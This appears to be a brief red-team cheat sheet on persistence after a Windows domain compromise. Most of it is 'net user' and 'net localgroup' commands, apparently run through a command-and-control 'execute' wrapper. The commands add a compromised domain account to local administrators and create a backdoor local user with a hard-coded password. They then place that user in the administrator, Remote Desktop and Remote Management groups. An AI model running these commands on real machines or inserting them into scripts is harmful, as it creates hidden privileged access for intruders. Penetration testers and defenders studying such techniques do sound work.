 # Persistence

### 1) Add a domain user we have already compromised as local admin on the machine - Helps with creds dumping as well

    execute -o net localgroup administrators domain.com\\attacker /add
    execute -o net localgroup administrators


### 2) Create local user and add into local admins and RDP groups

    execute -o net user /add userooo "Password123@" /Y
    execute -o net localgroup administrators userooo /add
    execute -o net localgroup "Remote Desktop Users" userooo /add
    execute -o net localgroup "Remote Management Users" userooo /add

